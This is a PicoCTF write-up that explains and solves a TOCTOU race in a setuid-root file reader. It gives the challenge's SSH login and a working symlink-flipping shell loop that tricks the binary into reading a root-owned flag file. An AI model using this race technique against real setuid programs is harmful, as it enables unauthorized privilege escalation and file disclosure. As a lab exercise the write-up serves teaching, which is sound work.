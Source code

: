 ## 🛡️ PicoCTF Write-up: **Race Condition File Read**

**Challenge Name**: *tic-tac*

---

### 📜 Challenge Description

> Someone created a program to read text files. We think the program reads files with root privileges, but apparently it only accepts to read files that are owned by the user running it.

We were provided with SSH access:

```bash
ssh ctf-player@saturn.picoctf.net -p 54773
Password: 483e80d4
```

Inside the server, a binary called `txtreader` was available:

```bash
$ ls -l txtreader
-rwsr-xr-x 1 root root 19016 Aug  4  2023 txtreader
```

The binary is a **setuid-root** ELF, meaning it runs with **root privileges**, but it contains logic that prevents reading files not owned by the calling user.

---

### 🔍 Code Analysis

The provided source code checks file ownership before reading:

```cpp
if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
}
```

Even though the program runs as root, it uses `getuid()` (real UID), not `geteuid()`. This means the check compares against the **user running the binary**, not the elevated root UID.

---

### 🎯 Goal

Bypass this ownership check and trick the program into reading a root-owned file: `flag.txt`.

---

### 🧠 Exploitation Strategy: **Race Condition via Symbolic Link (TOCTOU)**

The check and file read are **not atomic** (Time Of Check To Time Of Use). We can exploit this using a **symbolic link** that points to a file we own at check time, but to `flag.txt` at read time.

---

### 🧪 Step-by-Step Exploitation

1. **Create a dummy file you own**:

   ```bash
   echo "Hello world!" > myfile
   ```

2. **Create an initial symlink pointing to your file**:

   ```bash
   ln -s myfile flip
   ```

3. **Start a background race condition flipper**:

   ```bash
   while true; do ln -sf myfile flip; ln -sf flag.txt flip; done &
   ```

   This rapidly swaps the symlink between `myfile` (user-owned) and `flag.txt` (root-owned).

4. **Spam the program with reads**:

   ```bash
   while true; do ./txtreader flip; done
   ```

   Occasionally, the program will:

   * `stat("flip") → sees user-owned file (myfile)`
   * then `open("flip") → actually reads flag.txt`

---

### 🏁 Result

Eventually, output will include:

![result](./img/result.png)

🎉 **You win!**

---

### 🧠 Technical Concepts Involved

* `TOCTOU`: Time-of-Check Time-of-Use vulnerability.
* `setuid` binaries.
* Symlinks (`ln -s`), especially forced ones (`ln -sf`).
* Linux file ownership (`stat`, `getuid`).
* Race conditions and concurrency in file operations.

---

### ✅ Summary

| Technique        | Used? |
| ---------------- | ----- |
| Symlink Flipping | ✅     |
| File Ownership   | ✅     |
| Race Condition   | ✅     |
| SUID Privilege   | ✅     |

---

